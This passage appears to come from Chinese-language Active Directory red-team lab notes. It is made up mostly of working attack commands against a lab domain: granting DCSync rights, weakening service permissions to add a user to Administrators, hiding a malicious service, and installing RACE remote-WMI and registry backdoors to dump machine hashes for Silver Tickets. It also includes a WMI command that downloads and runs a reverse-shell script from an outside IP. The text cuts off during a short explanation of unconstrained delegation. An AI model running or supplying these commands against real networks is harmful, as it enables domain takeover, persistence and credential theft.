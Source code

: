 ```powershell
ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} |
d
```
- 幫指定的人增加 DC Sync 權限
```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student365 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
- 幫指定的人移除 DC Sync 權限
```powershell
Remove-DomainObjectAcl -TargetIdentity "DC=dollarcorp, DC=moneycorp, DC=local" -PrincipalIdentity student365 -Rights DCSync -Verbose
```
### SDDL Persistent 
- SDDL Converter
	- https://github.com/canix1/SDDL-Converter
- 讓所有 User 都可以碰 Service
	- `sc.exe sdset scmanager D:(A;;KA;;;WD)`
	- `sc create LPE displayName= "LPE" binPath= "C:\Windows\System32\net.exe localgroup Administrators nonpriv-user /add" start= auto`
- 讓使用者看不到 Service
	- `sc create evilsvc`
	- `sc sdset evilsvc "D:(D;;DCLCWPDTSDCC;;;IU)(D;;DCLCWPDTSDCC;;;SU)(D;;DCLCWPDTSDCC;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"`
#### RACE 工具
- https://github.com/samratashok/RACE
- Domain Admin 權限
	- `Import-Module .\RACE.ps1`
	- 允許指定使用者使用 Remote WMI
		- `Set-RemoteWMI -SamAccountName student365 -Verbose -ComputerName dcorp-dc -namespace 'root\cimv2'`
		- 刪除的話，前面指令後面帶 `-Remove`
		- 接著就可以 `Invoke-WmiMethod win32_process -ComputerName dcorp-dc.dollarcorp.moneycorp.local -name create -argumentlist "powershell -c iex(iwr http://172.16.99.65:6666/Invoke-PowerShellTcpEx.ps1 -UseBasicParsing)"`
	- 允許指定使用者用 PS Remoting
		- `Set-RemotePSRemoting -SamAccountName student365 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose`
		- 刪除的話，前面指令後面帶 `-Remove`
	- 取 Remote Machine Hash
		- `Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student365 -Verbose`
		- `Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose`
		- 取到 Remote Machine Hash 後就可以用 Silver Ticket 來做各種 RCE

##   Delegation
### Unconstrained Delegation
簡單來說，User A 去訪問 Service B，而 Service B 開啟了非約束委派。
則 User A 訪問 Service B 時， User A 會把自己的 TGT 一起發給 Service B，因此， Service B 就可以透過 User A 的身份去 Access 任意服務。
